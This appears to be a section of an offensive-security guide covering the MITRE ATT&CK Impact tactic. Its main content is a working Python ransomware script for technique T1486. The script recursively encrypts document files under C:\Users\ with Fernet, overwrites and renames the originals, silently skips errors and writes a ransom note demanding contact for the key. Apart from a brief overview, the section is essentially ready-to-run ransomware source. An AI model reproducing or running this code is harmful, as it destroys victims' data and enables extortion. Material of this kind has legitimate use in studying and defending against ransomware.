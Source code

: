 # Phase 10: Impact

## 🎯 Overview

Impact techniques are designed to disrupt availability or integrity of systems and data. Represents the final objectives of destructive attacks and ransomware operations.

### MITRE ATT&CK: Impact (TA0040)
**Coverage**: 13 techniques including data destruction, encryption, denial of service, and system manipulation.

---

## Key Techniques

### 1. Data Encrypted for Impact (T1486)

#### Ransomware Encryption
```python
from cryptography.fernet import Fernet
import os

def encrypt_files(directory, key):
    """Encrypt files in directory"""
    cipher = Fernet(key)
    
    for root, dirs, files in os.walk(directory):
        for file in files:
            if file.endswith(('.doc', '.docx', '.pdf', '.txt', '.xlsx')):
                file_path = os.path.join(root, file)
                
                try:
                    with open(file_path, 'rb') as f:
                        data = f.read()
                    
                    encrypted = cipher.encrypt(data)
                    
                    with open(file_path, 'wb') as f:
                        f.write(encrypted)
                    
                    # Rename with extension
                    os.rename(file_path, file_path + '.encrypted')
                except:
                    pass

# Generate key
key = Fernet.generate_key()
print(f"Encryption key: {key.decode()}")

# Encrypt
encrypt_files('C:\\Users\\', key)

# Drop ransom note
with open('C:\\Users\\README.txt', 'w') as f:
    f.write("Your files have been encrypted. Contact us for decryption key.")
```
